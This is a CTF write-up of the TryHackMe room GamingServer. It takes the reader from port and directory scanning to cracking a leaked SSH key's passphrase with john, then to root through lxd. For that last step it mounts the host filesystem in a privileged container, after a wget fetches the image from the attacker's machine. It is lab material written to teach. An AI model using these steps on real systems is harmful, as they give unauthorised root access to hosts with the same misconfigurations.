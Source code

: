 ```yaml
---
layout: post
title:  "GamingServer tryhackme room writeup"
date:   2020-07-23 21:03:36 +0530
categories: CTF Writeups
---
```

# GamingServer


writeup of the room GamingServer in TryHackMe

first start by doing a port scan

```bash
rustscan $IP
```
results:
```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
then start start dirbuster or gobuster to search for hidden files

```bash
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
you will then find an interesting folder called "/secret" 

![](https://i.imgur.com/dvouO8n.png)

that contains a ssh key, download it

after you downloaded that key create a new hash file using ssh2john
```python
python ssh2john.py SecretKey > id_rsa.hash
```
and then crack it using john and rockyou wordlist
```python
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
results
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
1g 0:00:00:12 DONE (2020-08-30 22:24) 0.08278g/s 1187Kp/s 1187Kc/s 1187KC/s *7¡Vamos!
Session completed
```
then i found a user that can be used for a ssh connection on the website source code

in the bottom line of : https://$IP/index.html

![](https://i.imgur.com/AkvBtg2.png)

as you can see there is a user called john

connect to the server throught ssh
```bash
ssh john@$IP -i ./SecretKey
```
enter the passphrase and you logged in as john

![](https://i.imgur.com/fvRhWhv.png)

now get the user flag
```bash
cat user.txt
a****************e
```
after searching and looking in the machine i found an interesting service called lxd(Linux Containers) owned by root and that can be used by anyone,

locally clone that repo and run the other commands
```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```
then start a simple web server
```bash
python -m SimpleHTTPServer
```
then download the files you just downloaded locally
```bash
cd /tmp
wget http://$LHOST:8000/alpine-v3.12-x86_64-20200830_2354.tar.gz
```
replace $LHOST with your local ip address (run "ip addr" to see it)

import the image by running: 
```bash
lxc image import ./alpine-v3.12-x86_64-20200830_2354.tar.gz --alias myimage
```
then spawn a root shell by running this list of commands
```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
whoami
```
now get the root flag 
```bash
cat mnt/root/root/flag.txt
2************c
```
if you don't get your root shell or it's not working try following this [guide](https://www.hackingarticles.in/lxd-privilege-escalation/) for privilege escalation about lxd
